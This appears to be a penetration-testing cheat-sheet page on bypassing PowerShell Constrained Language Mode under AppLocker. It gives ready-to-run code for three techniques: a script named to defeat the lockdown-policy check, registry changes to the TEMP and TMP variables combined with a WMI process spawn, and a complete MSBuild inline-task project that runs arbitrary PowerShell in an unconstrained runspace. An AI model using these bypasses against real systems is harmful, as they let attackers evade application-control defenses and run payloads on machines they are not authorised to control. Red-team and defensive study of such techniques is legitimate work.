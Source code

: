 ```yaml
---
title: CLM
---
```


When AppLocker is enabled *Constrained Language Mode* is activated in PowerShell.

Check if CLM is enabled.

~~~ powershell
$ExecutionContext.SessionState.LanguageMode
~~~

Evade CLM if enabled trough the `$__PSLockDownPolicy` environment variable ([source](http://web.archive.org/web/20220929061634/https://www.blackhillsinfosec.com/constrained-language-mode-bypass-when-pslockdownpolicy-is-used/)).

~~~ ps1
$__PSLockDownPolicy
echo 'echo $ExecutionContext.SessionState.LanguageMode;PAYLOAD' > .\system32.ps1
.\system32.ps1
~~~

If AppLocker allows script execution from a writable directory, CLM can be bypassed by modifying the `%TEMP%` and `%TMP%` environment variables ([source](https://web.archive.org/web/20230326030856/https://oddvar.moe/2018/10/06/temporary-constrained-language-mode-in-applocker/)).
In the example AppLocker allows script execution from `C:\Windows\Temp`.

~~~ ps1
$orgtemp = $env:temp
$orgtmp = $env:tmp
$newtmp = 'C:\Windows\Temp'

Set-ItemProperty -Path 'HKCU:\Environment' -Name Tmp -Value $newtmp
Set-ItemProperty -Path 'HKCU:\Environment' -Name Temp -Value $newtmp

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList powershell.exe

sleep 1

Set-ItemProperty -Path 'HKCU:\Environment' -Name Tmp -Value $orgtmp
Set-ItemProperty -Path 'HKCU:\Environment' -Name Temp -Value $orgtemp
~~~

CLM does not apply to custom runspaces.
You can create a runspace if you can get an executable or DLL past AppLocker ([source](http://web.archive.org/web/20221123103200/https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/)).

~~~ ps1
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .\runspace.csproj
~~~

`./runspace.csproj` ([source](https://github.com/minatotw/clmbypassblogpost/)):

~~~ xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <MSBuildTest/>
  </Target>
  <UsingTask TaskName="MSBuildTest" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <Task>
      <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
          using System;
          using System.Linq;
          using System.Management.Automation;
          using System.Management.Automation.Runspaces;
          using Microsoft.Build.Framework;
          using Microsoft.Build.Utilities;

          public class MSBuildTest : Task, ITask {
            public override bool Execute() {
              using (var runspace = RunspaceFactory.CreateRunspace()) {
                using (var posh = PowerShell.Create()) {
                  runspace.Open();
                  posh.Runspace = runspace;
                  posh.AddScript("$ExecutionContext.SessionState.LanguageMode;PAYLOAD");
                  var results = posh.Invoke();
                  var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                  Console.WriteLine(output);
                }
              }
              return true;
            }
          }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
~~~

Other tools:

- [PowerShdll](https://github.com/p3nt4/powershdll), DLL that starts PowerShell in custom runspace
